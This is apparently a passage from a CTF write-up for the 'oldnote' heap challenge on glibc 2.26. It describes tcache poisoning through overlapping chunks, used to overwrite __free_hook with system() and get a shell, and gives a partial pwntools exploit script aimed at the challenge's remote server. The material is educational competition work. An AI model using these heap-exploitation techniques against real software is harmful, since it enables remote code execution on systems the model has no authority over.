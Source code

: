 
### RCE
From our libc exploration, we created an unsorted bin chunk, that overlapped with a couple of tcache chunks that we used to forge a chunk to reconnect to the top chunk.

We can simply just allocate some chunks from said unsorted bin chunk, which overlap with some tcache chunk, in order to write to the tcache pointers, in effect creating a sort of unsorted-tcache bin dup and achieving tcache poison.

We allocate some chunks to get an overlap with a tcache chunk, and then we write to a previously freed tcache chunk's fwd with `__free_hook`.

Then, we just tcache poison to write to `__free_hook` with `system()`, and free a chunk with `/bin/sh` in it.


### Script
```python
from pwn import *

e = ELF("./oldnote")
libc = ELF("./libc-2.26.so")
ld = ELF("./ld-2.26.so")

context.binary = e
context.terminal = ["konsole", "-e"]


while True:
    #p = process([ld.path, e.path], env={"LD_PRELOAD": libc.path})
    p = remote("poseidonchalls.westeurope.cloudapp.azure.com", 9000)


    #context.log_level="debug"
    #gdb.attach(p, """p stdout \n info addr main_arena""")
    
    def new(size, dat):
        p.sendlineafter(": ", "1")
        p.sendlineafter(": ", str(size))
        p.sendafter(": ", str(dat))


    def remove(idx):
        p.sendlineafter(": ", "2")
        p.sendlineafter(": ", str(idx))


    new(0x10, "A")
    new(0x10, "B")


    for i in range(0x90, 0xd1, 0x10):
        new(i, "i")
        remove(2)



    new(0xe0, "i"*0x30+p64(0x421)+p64(0xe0-0x32+3))



    remove(0)


    new(-1, "C"*0x18 + "\x21\x04")
```